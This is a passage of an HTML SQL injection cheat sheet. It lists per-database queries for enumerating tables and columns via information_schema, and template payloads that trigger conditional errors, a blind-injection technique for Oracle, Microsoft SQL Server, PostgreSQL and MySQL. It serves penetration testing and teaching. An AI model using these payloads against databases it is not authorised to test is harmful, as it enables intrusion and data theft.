     <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>SELECT * FROM information_schema.tables</code><br />
            <code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            <code>SELECT * FROM information_schema.tables</code><br />
            <code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code>
        </td>
    </tr>
</table>
<div>
    <h4>Additional</h4>
    <p>
        Check <a href="https://learn.microsoft.com/en-us/sql-relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16">this website</a> for column names to use in schema queries. <code>TABLE_NAME</code> is likely the most useful column.
    </p>
</div>

<h2>Conditional errors</h2>
<p>
    You can test a single boolean condition and trigger a database error if the condition is true.
</p>
<table>
    <tr>
        <th>
            Oracle
        </th>
        <td>
            <code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual</code>
        </td>
    </tr>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            <code>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')</code>
        </td>